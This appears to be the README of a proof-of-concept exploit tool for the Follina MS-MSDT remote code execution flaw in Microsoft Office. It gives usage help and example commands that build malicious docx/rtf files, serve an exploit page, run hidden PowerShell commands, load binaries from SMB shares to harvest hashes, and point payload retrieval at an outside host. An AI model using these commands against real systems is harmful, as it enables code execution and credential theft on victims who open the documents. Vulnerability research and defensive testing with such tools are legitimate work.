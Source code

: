 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate a `clickme.docx` (or `clickme.rtf`) payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see help and examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
$ python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] -t {rtf,docx} [-u URL] [-H HOST] [-P PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -t {rtf,docx}, --type {rtf,docx}
                        The type of payload to use, can be "docx" or "rtf"
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost". Disables web server if custom URL scheme or path are specified
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.
